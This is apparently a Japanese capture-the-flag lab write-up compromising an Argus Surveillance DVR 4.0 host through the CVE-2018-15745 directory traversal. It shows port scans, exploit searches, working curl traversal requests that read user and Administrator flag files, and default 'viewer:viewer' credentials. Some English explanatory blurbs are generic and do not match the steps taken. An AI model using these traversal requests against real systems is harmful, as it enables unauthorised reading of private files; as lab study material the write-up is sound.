

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows 10 / Server 2019 Build 19041 x64 |
| 難易度 | Easy |
| 攻撃対象 | Web (Argus Surveillance DVR 4.0 ポート8080) |
| 主な侵入経路 | WEBACCOUNT.CGI のディレクトリトラバーサル (CVE-2018-15745 / EDB-45296) |
| 権限昇格経路 | 同一脆弱性 — Administratorデスクトップの直接ファイル読み取り |

## 認証情報

認証情報なし（攻撃は完全に非認証のファイル読み取り）。

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.179:22
Open 192.168.198.179:135
Open 192.168.198.179:139
Open 192.168.198.179:445
Open 192.168.198.179:5040
Open 192.168.198.179:7680
Open 192.168.198.179:8080
```

```bash
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           Bitvise WinSSHD 8.48
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
8080/tcp  open  tcpwrapped
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
```

ポート8080でArgus Surveillance DVR 4.0が動作していた。searchsploitで既知の脆弱性を確認:

```bash
searchsploit Argus Surveillance
```

```bash
Argus Surveillance DVR 4.0 - Unquoted Service Path                  | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption               | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal                | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation               | windows_x86/local/45312.c
```

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

EDB-45296は `WEBACCOUNT.CGI` エンドポイントのディレクトリトラバーサルを記述している。`RESULTPAGE` パラメータに `..%2F` シーケンスを指定することで、認証なしで任意のファイルを読み取れる:

```bash
curl "http://$ip:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2Fdesktop%2Flocal.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

```bash
21ddead5ecfec1f85bf0549079cc8477
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
同じディレクトリトラバーサル脆弱性を使用してAdministratorのproofフラグを直接読み取った — シェルアクセスや権限昇格は不要だった:

```bash
curl "http://$ip:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2Fdesktop%2Fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```

```bash
8f49db347a634e27b833d5d463fce4a9
```

備考: SSH で `viewer:viewer` でのログインは成功したが、シェルが不安定（即座に終了）だった。RDP (3389) と WinRM (5985) は未開放。本マシンはディレクトリトラバーサルによるファイル読み取りのみで完結できる構成だった。

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- Argus Surveillance DVR 4.0 の `WEBACCOUNT.CGI` に非認証のディレクトリトラバーサルが存在する — 監視ソフトウェアを最新状態に保つべき。
- ディレクトリトラバーサルだけでシェルなしにユーザーとルートの両フラグを取得できる場合がある。
- シェルアクセスが不安定な場合（SSHシェルが即死）、ファイル読み取り脆弱性でフラグを取得する方針に切り替える。
- デフォルトの弱い認証情報（`viewer:viewer`）はセキュリティ体制の脆弱さを示している。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- EDB-45296 — Argus Surveillance DVR 4.0.0.0 Directory Traversal: https://www.exploit-db.com/exploits/45296
- CVE-2018-15745: https://nvd.nist.gov/vuln/detail/CVE-2018-15745
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
